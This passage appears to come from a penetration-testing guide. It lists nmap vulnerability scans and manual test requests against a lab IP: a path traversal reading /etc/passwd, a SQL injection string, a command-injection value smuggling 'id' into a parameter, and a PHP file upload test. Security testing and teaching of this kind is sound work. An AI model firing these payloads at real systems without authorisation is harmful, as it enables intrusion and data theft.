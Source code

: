 ### Step 1: Automated Vulnerability Scanning

**Purpose**: Quickly identify known vulnerabilities using automated tools.

```bash
# Network Vulnerability Scanning
nmap --script vuln 10.10.10.5
# Explanation: Runs vulnerability detection scripts
# Expected output: CVE numbers, vulnerability descriptions, severity

# Specific Protocol Vulnerability Testing
nmap --script=smb-vuln* 10.10.10.5
# Explanation: Tests for SMB-specific vulnerabilities
# Expected output: EternalBlue, MS17-010, SMBGhost detection

# HTTP Vulnerability Scanning
nmap --script=http-vuln* 10.10.10.5
# Explanation: Tests for web-specific vulnerabilities
# Expected output: Shellshock, Heartbleed, SQL injection points

# SSL/TLS Vulnerability Testing
nmap --script=ssl-enum-ciphers 10.10.10.5 -p 443
# Explanation: Identifies weak SSL/TLS configurations
# Expected output: Supported ciphers, protocol versions, vulnerabilities
```

### Step 2: Manual Vulnerability Verification

**Purpose**: Manually verify automated scan results and discover additional vulnerabilities.

```bash
# Directory Traversal Testing
curl "http://10.10.10.5/index.php?page=../../../etc/passwd"
# Explanation: Test for local file inclusion vulnerabilities
# Expected output: System files or error messages

# SQL Injection Testing (Manual)
curl "http://10.10.10.5/login.php?id=1' OR '1'='1"
# Explanation: Basic SQL injection test
# Expected output: Database errors or unexpected behavior

# Command Injection Testing
curl "http://10.10.10.5/ping.php?host=127.0.0.1;id"
# Explanation: Test for OS command injection
# Expected output: System command output

# File Upload Testing
curl -X POST -F "file=@test.php" http://10.10.10.5/upload.php
# Explanation: Test file upload functionality
# Expected output: Upload confirmation or file path
```

### Step 3: Exploit Research & Verification
